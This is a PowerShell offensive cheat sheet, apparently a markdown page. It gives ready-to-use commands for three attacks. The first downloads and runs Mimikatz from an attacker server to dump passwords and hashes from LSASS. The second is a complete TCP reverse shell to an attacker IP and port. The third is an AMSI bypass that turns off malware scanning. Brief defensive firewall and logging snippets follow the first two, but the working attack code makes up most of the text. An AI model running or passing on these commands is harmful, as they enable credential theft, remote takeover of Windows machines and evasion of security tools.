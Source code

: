 

---

### **Offensive PowerShell Commands**  
#### **1. Credential Theft (Mimikatz In-Memory)**  
```powershell  
# Download and execute Mimikatz  
iex (New-Object Net.WebClient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
- **Purpose**: Dumps plaintext passwords, NTLM hashes, and Kerberos tickets from LSASS.  
- **Test**: Replace `10.0.0.5` with your attacker server IP.  

#### **Defense**  
- **Enable LSASS Protection**:  
  ```powershell  
  Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1  
  ```  
- **Block Mimikatz Process Creation**:  
  ```powershell  
  New-NetFirewallRule -DisplayName "Block Mimikatz" -Direction Outbound -Action Block -Program "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -RemoteAddress 10.0.0.5  
  ```  

---

#### **2. Reverse Shell (Obfuscated TCP)**  
```powershell  
# Reverse shell to 10.0.0.5:4444  
$c=New-Object Net.Sockets.TCPClient('10.0.0.5',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$e=(iex $d 2>&1 | Out-String );$f=$e+'PS '+(pwd).Path+'> ';$g=([text.encoding]::ASCII).GetBytes($f);$s.Write($g,0,$g.Length)}  
```  
- **Purpose**: Establishes a command shell with the attacker.  
- **Test**: Replace `10.0.0.5` with your attacker IP.  

#### **Defense**  
- **Block Outbound Reverse Shells**:  
  ```powershell  
  New-NetFirewallRule -DisplayName "Block Reverse Shells" -Direction Outbound -Action Block -Protocol TCP -RemotePort 4444  
  ```  
- **Monitor Process Command Lines**:  
  ```powershell  
  Get-WinEvent -LogName Security | Where-Object { $_.Message -match "TCPClient" }  
  ```  

---

#### **3. AMSI Bypass (Memory Patching)**  
```powershell  
# Disable AMSI scans  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null,$null)  
```  
- **Purpose**: Allows execution of malicious scripts undetected.  
